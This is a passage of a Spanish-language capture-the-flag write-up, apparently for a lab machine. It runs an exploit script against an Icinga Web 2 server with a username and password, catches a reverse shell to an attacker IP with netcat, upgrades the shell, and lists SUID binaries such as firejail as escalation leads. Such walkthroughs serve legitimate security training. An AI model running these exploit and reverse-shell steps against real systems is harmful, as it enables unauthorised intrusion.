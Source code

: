 ```null
python3 exploit.py -t http://icinga.cerberus.local:8080/icingaweb2 -u matthew -p IcingaWebPassword2023 -e id_rsa -I 10.10.16.15 -P 443
```

Recibo la shell en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.205] 49856
bash: cannot set terminal process group (642): Inappropriate ioctl for device
bash: no job control in this shell
www-data@icinga:/usr/share/icingaweb2/public$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@icinga:/usr/share/icingaweb2/public$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@icinga:/usr/share/icingaweb2/public$ export TERM=xterm
www-data@icinga:/usr/share/icingaweb2/public$ export SHELL=bash
www-data@icinga:/usr/share/icingaweb2/public$ stty rows 55 columns 209
```

Encuentro dos archivos SUID cuyo propietario es ```root``` y no es típico del sistema

```null
www-data@icinga:/$ find \-perm \-4000 2>/dev/null 
./usr/sbin/ccreds_chkpwd
./usr/bin/mount
./usr/bin/sudo
./usr/bin/firejail
./usr/bin/chfn
./usr/bin/fusermount3
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/gpasswd
./usr/bin/ksu
./usr/bin/pkexec
./usr/bin/chsh
./usr/bin/su
./usr/bin/umount
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/openssh/ssh-keysign
./usr/libexec/polkit-agent-helper-1
```

```null
www-data@icinga:/$ ls -l ./usr/sbin/ccreds_chkpwd
-rwsr-xr-x 1 root root 14488 Feb  4  2021 ./usr/sbin/ccreds_chkpwd
```

```null
www-data@icinga:/$ ls -l ./usr/bin/firejail
-rwsr-xr-x 1 root root 474496 Jan 19  2022 ./usr/bin/firejail
```
